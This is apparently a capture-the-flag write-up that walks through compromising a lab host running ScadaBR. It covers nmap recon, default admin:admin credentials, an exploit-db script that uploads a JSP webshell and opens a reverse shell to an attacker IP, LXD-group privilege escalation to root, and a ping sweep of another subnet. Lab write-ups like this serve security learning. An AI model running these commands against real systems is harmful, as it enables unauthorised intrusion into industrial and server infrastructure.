



As usual I will start by checking for all the alive services over all the TCP protocol:

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a4:2f:d9:45:84:88:0f:23:0f:a1:97:ff:43:b1:c3:23 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDpzykAXoA3r/pQPicIXy9zew64SRULVpPua/fSZzap1
80/tcp open  http    syn-ack ttl 64 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
| http-title: Site doesn't have a title (text/html;charset=UTF-8).
|_Requested resource was http://172.16.0.20/ScadaBR
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): Google Fuchsia (86%), IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:google:fuchsia cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Google Fuchsia (86%), IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.99%E=4%D=4/20%OT=22%CT=%CU=%PV=Y%G=N%TM=69E62153%P=x86_64-pc-linux-gnu)
SEQ(SP=100%GCD=1%ISR=105%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=105%GCD=1%ISR=10D%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

```

# HTTP

Now trying the default credentials of (**admin:admin**) I am in:



Now a quick googling shows traces of a possible rce via [this](https://www.exploit-db.com/exploits/49735) script.

&nbsp;

```bash
python2.7 scadabr_exploit.py 172.16.0.20 80 admin admin 10.10.14.15 4444

+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|    _________                  .___     ____________________       |
|   /   _____/ ____ _____     __| _/____ \______   \______   \      |
|   \_____  \_/ ___\__  \   / __ |\__  \ |    |  _/|       _/       |
|   /        \  \___ / __ \_/ /_/ | / __ \|    |   \|    |   \      |
|  /_______  /\___  >____  /\____ |(____  /______  /|____|_  /      |
|          \/     \/     \/      \/     \/       \/        \/       |
|                                                                   |
|    > ScadaBR 1.0 ~ 1.1 CE Arbitrary File Upload   |
|    > Exploit Author : Fellipe Oliveira                            |
|    > Exploit for Linux Systems                                    |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

[+] Trying to authenticate http://172.16.0.20:80/ScadaBR/login.htm...
[+] Successfully authenticated! :D~

[>] Attempting to upload .jsp Webshell...
[>] Verifying shell upload...

[+] Upload Successfuly! 

[+] Webshell Found in: http://172.16.0.20:80/ScadaBR/uploads/1.jsp
[>] Spawning Reverse Shell...


```

Habemus shell:



And I have another flag baby:

```bash
aepike@scada:~$ ls -al
ls -al
total 32
drwxr-xr-x 3 aepike aepike 4096 Apr 11  2024 .
drwxr-xr-x 4 root   root   4096 Apr 10  2024 ..
-rw------- 1 aepike aepike   29 Apr  4  2024 .bash_history
-rw-r--r-- 1 aepike aepike  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 aepike aepike 3771 Apr  4  2018 .bashrc
drwxr-xr-x 3 aepike aepike 4096 Apr 11  2024 .cache
-rw-r--r-- 1 root   root     48 Feb 19  2024 flag.txt
-rw-r--r-- 1 aepike aepike  807 Apr  4  2018 .profile
aepike@scada:~$ cat flag.txt
cat flag.txt
ALCHEMY{Wh47_d347H_4_d3s7In47i0N_0R_7h3_j0URn3y}

```

And this time is a bit better but still not totally good:


# Road to root

Now I need to find a way to elevate my permissions to root and  I see another home folder but it's about the Eclipse IDE:

```bash
aepike@scada:/home/mrg/Development/eclipseWorkspace/.metadata$ ls -al
ls -al
total 12
drwxr-xr-x 3 root root 4096 Feb 19  2024 .
drwxr-xr-x 3 root root 4096 Feb 19  2024 ..
drwxr-xr-x 3 root root 4096 Feb 19  2024 .plugins
aepike@scada:/home/mrg/Development/eclipseWorkspace/.metadata$       

```

Now here I added a new key to the local ssh in order to obtain a stable shell and I see immediately the current user running this program is part of the LXD group which allows to manage the linux containerization service:

```bash
aepike@scada:~$ id
uid=1000(aepike) gid=1000(aepike) groups=1000(aepike),108(lxd)
aepike@scada:~$ 

```

Now I need to upload an apline image to the machine:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Tools/lxd-alpine-builder]
└─$ ll
total 3228
-rw-rw-r-- 1 user user 3259593 Apr 21 09:44 alpine-v3.13-x86_64-20210218_0139.tar.gz
-rwxrwxr-x 1 user user    8064 Apr 21 09:44 build-alpine
-rw-rw-r-- 1 user user   26530 Apr 21 09:44 LICENSE
-rw-rw-r-- 1 user user     768 Apr 21 09:44 README.md
drwxr-xr-x 6 root root    4096 Apr 21 09:44 rootfs

```

Now after the image upload to the target I can import the image in LXC:

```bash
lxc image import ./alpine*.tar.gz --alias alpine
```

Now I can initialize the daemon and spin a new container in privileged mode:

```bash
aepike@scada:/tmp$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]: 
Create a new BTRFS pool? (yes/no) [default=yes]: 
Would you like to use an existing block device? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=15GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
aepike@scada:/tmp$ lxc init alpine mycontainer -c security.privileged=true
Creating mycontainer
aepike@scada:/tmp$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer
aepike@scada:/tmp$ 

```

And now I can invoke the contained and reach the root folder via the mounted partiion, I will also grab a new flag and inject my publich RSA key for a better login:

```bash
aepike@scada:/tmp$ lxc start mycontainer
aepike@scada:/tmp$ lxc exec mycontainer /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # pwd
/root
~ # ls
~ # ls -al
total 4
drwx------    1 root     root            24 Apr 21 07:49 .
drwxr-xr-x    1 root     root           114 Apr 21 07:49 ..
-rw-------    1 root     root            17 Apr 21 07:49 .ash_history
~ # cd /mnt/
/mnt # ls
root
/mnt # cd root/
/mnt/root # ls
bin             dev             initrd.img      lib64           mnt             root            snap            tmp             vmlinuz
boot            etc             initrd.img.old  lost+found      opt             run             srv             usr             vmlinuz.old
cdrom           home            lib             media           proc            sbin            sys             var
/mnt/root # cd root/
/mnt/root/root # ls
flag.txt
/mnt/root/root # ls -al
total 40
drwx------    7 root     root          4096 Mar 12  2024 .
drwxr-xr-x   24 root     root          4096 Apr 10  2024 ..
drwx------    3 root     root          4096 Feb 19  2024 .ansible
lrwxrwxrwx    1 root     root             9 Aug 24  2021 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Apr  9  2018 .bashrc
drwx------    2 root     root          4096 Apr 27  2020 .cache
drwx------    3 root     root          4096 Apr 27  2020 .gnupg
drwxr-xr-x    3 root     root          4096 May  7  2020 .local
-rw-r--r--    1 root     root           148 Aug 17  2015 .profile
drwx------    2 root     root          4096 Apr 13  2020 .ssh
lrwxrwxrwx    1 root     root             9 Mar 12  2024 .viminfo -> /dev/null
-rw-r--r--    1 root     root            44 Feb 19  2024 flag.txt
/mnt/root/root # cat flag.txt 
ALCHEMY{whA7_HaV3_1_D0N3?_F0R91V3_91V3_l0RD}
/mnt/root/root # 


```

# Post Exploitation

Now I am already aware that i am missing tons of machines but apparently there is another subnet I should be able to reach:

```bash
root@scada:~# for i in {1..254} ;do (ping 172.17.0.$i -c 1 -w 5  >/dev/null && echo "172.17.0.$i" &) ;done
172.17.0.1
172.17.0.3
172.17.0.10
172.17.0.34
172.17.0.50

```

Now since the intiial machine is not able to reach this new network I will setup a new tunnel from this machine:



&nbsp;

&nbsp;